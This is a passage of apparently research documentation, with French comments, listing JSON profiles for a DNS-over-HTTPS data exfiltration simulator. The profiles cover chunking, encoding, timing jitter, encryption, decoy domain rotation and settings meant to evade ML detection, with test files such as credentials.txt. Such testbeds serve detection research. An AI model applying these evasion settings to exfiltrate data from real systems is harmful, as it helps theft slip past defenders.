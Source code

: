 ```json
      "security-updates.local",
      "maintenance-api.local",
      "status-check.local"
    ],
    "padding": true,
    "padding_size": 20
  },
  "test_files": [
    "financial_records.xlsx",
    "employee_data.csv"
  ],
  "detection_expected": false,
  "notes": "Simulation APT : très lents délais, rotation domaines, chiffrement"
}
```

#### 2. Speed Benchmark Configuration
```json
{
  "name": "Speed Benchmark",
  "description": "Configuration optimisée pour vitesse maximale",
  "exfiltration_config": {
    "doh_server": "https://doh.local/dns-query",
    "target_domain": "fast-api.local",
    "chunk_size": 55,
    "encoding": "base64",
    "timing_pattern": "burst",
    "base_delay": 0.001,
    "burst_size": 20,
    "burst_delay": 0.1,
    "compression": true,
    "subdomain_randomization": false
  },
  "test_files": ["large_file.bin"],
  "detection_expected": true,
  "notes": "Test de vitesse maximale - facilement détectable"
}
```

#### 3. Stealth Research Configuration
```json
{
  "name": "Stealth Research", 
  "description": "Configuration furtive pour recherche d'évasion",
  "exfiltration_config": {
    "doh_server": "https://doh.local/dns-query",
    "target_domain": "cdn-service.local",
    "chunk_size": 15,
    "encoding": "custom",
    "timing_pattern": "stealth",
    "base_delay": 5.0,
    "delay_variance": 2.0,
    "compression": true,
    "encryption": true,
    "encryption_key": "research_stealth_key",
    "subdomain_randomization": true,
    "padding": true,
    "padding_size": 12,
    "domain_rotation": true,
    "backup_domains": ["api-cache.local", "media-cdn.local"]
  },
  "test_files": ["sensitive_data.json", "credentials.txt"],
  "detection_expected": false,
  "notes": "Techniques d'évasion avancées pour contourner la détection ML"
```